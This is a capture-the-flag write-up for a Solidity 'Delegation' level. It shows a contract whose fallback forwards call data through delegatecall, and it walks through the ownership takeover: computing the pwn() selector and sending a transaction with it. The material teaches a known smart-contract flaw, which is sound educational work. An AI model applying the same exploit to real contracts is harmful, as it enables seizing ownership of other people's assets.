 # Delegation

>The goal of this level is for you to claim ownership of the instance you are given.

>  Things that might help
>
> - Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
> - Fallback methods
> - Method ids

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

This challenge is a fairly good example of unsafe `delegatecall`.

Delegatecall is a low level function similar to call. It basically allows a contract A to execute the code of another contract B with A's storage, `msg.sender` and `msg.value`.

A `fallback` function is an external function with neither a name, parameters, or return values. It is called when we send ether directly to a contract but `receive()` is not defined or `msg.data` is not empty.

In order to claim the ownership of the contract, we must call the `pwn()` function.

Here, the fallback function of contract Delegation executes a delegatecall to the contract Delegate.
In Ethereum, you can invoke a public function by sending data in a transaction.

Therefore, we can make this contract call the function of our interest (pwn()) by making a transaction and setting `msg.data` as the encoded function signature of the function `pwn()`. 

To do this, we first calculate the function signature of `pwn()`.

```javascript
await web3.eth.abi.encodeFunctionSignature('pwn()')
```

then we make the transaction,

```javascript
await sendTransaction({data : "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000", to : "0xa57b752f86C5F4513C51E1840Ea860B54d11000A", from : "0x532600377959B703AA4AC2c468DeDe8FAA40B576"})
```
Now, we can check the owner of the contract and confirm that it is our address and then submit the instance.


